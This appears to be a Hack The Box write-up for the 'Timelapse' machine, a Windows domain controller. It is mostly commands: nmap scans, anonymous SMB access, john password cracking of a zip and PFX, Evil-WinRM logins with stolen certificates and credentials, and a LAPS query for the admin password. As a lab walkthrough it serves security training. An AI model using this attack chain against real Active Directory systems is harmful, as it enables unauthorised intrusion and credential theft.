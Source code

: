 ## HTB: Timelapse Walkthrough

### Recon
- **Nmap Scan:**
  - Found 18 open ports including: SMB (445), [Kerberos](Kerberos) (88), [LDAP](LDAP) (389), and [WinRM](WinRM) (5986)
  - Domain: `timelapse.htb`
  - Hostname: `dc01.timelapse.htb`

```bash
nmap -p- --min-rate 10000 10.10.11.152
nmap -p <interesting_ports> -sCV 10.10.11.152
```

- **/etc/hosts Addition:**
```
10.10.11.152 timelapse.htb dc01.timelapse.htb
```

### [SMB](SMB) Enumeration
- SMB anonymous login was successful:
```bash
smbclient -L //dc01.timelapse.htb -N
```
- Notable share: `Shares`
  - Found file: `winrm_backup.zip`
  - Found LAPS documentation in `HelpDesk`

### Shell as `legacyy`
- **Extracted `winrm_backup.zip` → `legacyy_dev_auth.pfx`**
- **Cracked zip password using john:** `supremelegacy`
- **Cracked PFX password using pfx2john + john:** `thuglegacy`
- **Extracted cert & private key:**
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key-enc.pem
openssl rsa -in key-enc.pem -out legacyy_dev_auth.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```
- **Connected using Evil-WinRM:**
```bash
evil-winrm -i timelapse.htb -S -c legacyy_dev_auth.crt -k legacyy_dev_auth.key
```
- Grabbed `user.txt`

### Shell as `svc_deploy`
- **Found PowerShell history file:**
```powershell
C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Credentials found:**
  - `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`
- **Connected with Evil-WinRM:**
```bash
evil-winrm -i timelapse.htb -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

### Shell as Administrator
- `svc_deploy` is a member of the `LAPS_Readers` group.
- Queried LAPS for DC01 local admin password:
```powershell
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
- Found password: `uM[3va(s870g6Y]9i]6tMu{j`
- Connected as Administrator:
```bash
evil-winrm -i timelapse.htb -S -u administrator -p 'uM[3va(s870g6Y]9i]6tMu{j'
```

### Root.txt
- `root.txt` not in Administrator desktop.
- Found under `C:\Users\TRX\Desktop\root.txt`

### Notes
- TRX account exists for HTB flag rotation purposes due to dynamic nature of LAPS.
